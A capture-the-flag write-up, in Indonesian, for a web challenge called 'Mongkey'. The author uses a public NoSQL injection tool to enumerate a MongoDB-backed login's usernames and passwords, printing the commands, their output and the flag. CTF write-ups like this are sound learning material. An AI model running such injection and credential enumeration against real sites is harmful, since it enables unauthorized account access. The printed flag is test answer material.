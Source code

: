 # Mongkey
## About The Challenge

![Screenshot from 2023-06-13 23-29-18](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/3e7357c6-7216-4156-8aeb-82cbe8408d6e)

Diberikan sebuah website http://103.167.136.89:10002/ dengan tampilan :
![image](https://github.com/qodrizizi/CTF_WRITEUP/assets/111678241/638daf3e-7f04-4575-bc70-15c3f4ad148d)

# Solutions

Dalam challenge kita diharuskan login sebagai admin untuk mendapati flagnya
Dalam challenge juga saya mendapati petunjuk yaitu "Do you know if it is possible to post an array in PHP? I use MongoDB btw"
saya berpikir bahwa ini merupakan sejenis SQL Injection namun dalam bentu mongodb saya berpikir menggunakan tool NosQLI MongoDB injection
menggunakan tool yang saya dapatkan dari [sini](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
setelah mendapatkan file toolnya menggunakan git clone

saya memasukkan perintah, untuk mencari username yang terdapat didalam website :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep username -op login:login
```
saya mendapati bahwa username didalam website ini ada dua yaitu :
```shell
2 username(s) found:
admin
guest
```
![Screenshot from 2023-06-14 00-05-58](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/fa9c6d5e-1656-4975-bdcb-0ec26da559a3)

guest bukanlah username untuk medapatkan flagnya maka saya berasumsi bahwa flag terdapat pada user 'admin', mari kita cari passwordnya dengan perintah :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep password -op login:login
```
setelah tool selesai melakukan tugasnya maka mendapati hasil
```shell
2 password(s) found:
guest
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
![Screenshot from 2023-06-14 00-06-26](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/b5f1edc7-4fb2-4a8e-9968-0823d5b7b5c3)

wow ternyata password untuk user admin adalah flag yang kita cari cari

## Flag
**ForestyHC{reject_humanity_return_to_monke_5543d8}**
